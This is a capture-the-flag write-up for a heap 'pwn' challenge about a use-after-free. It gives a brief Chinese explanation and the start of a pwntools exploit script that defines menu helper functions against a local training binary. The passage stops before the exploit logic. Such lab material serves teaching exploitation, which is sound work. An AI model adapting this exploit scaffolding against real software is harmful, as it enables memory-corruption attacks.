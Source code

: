 ## Information

- Category: Pwn

## Description

> Create and exploit a use-after-free vulnerability to get the flag when multiple allocations occur.

## Write-up

这题和之前也差不多，只不过 `ptr` 变成了可以容纳 16 个指针的数组，然后 `read_flag` 会 malloc 两次，flag 被写入第二次 malloc 返回的地址中。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ELF,
    args,
    context,
    log,
    process,
    raw_input,
    remote,
)

FILE = "/challenge/babyheap_level3.0"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx))
    target.sendlineafter(b"Size: ", str(size))


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx))


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx))


def read_flag():
    target.sendlineafter(b": ", b"read_flag")
```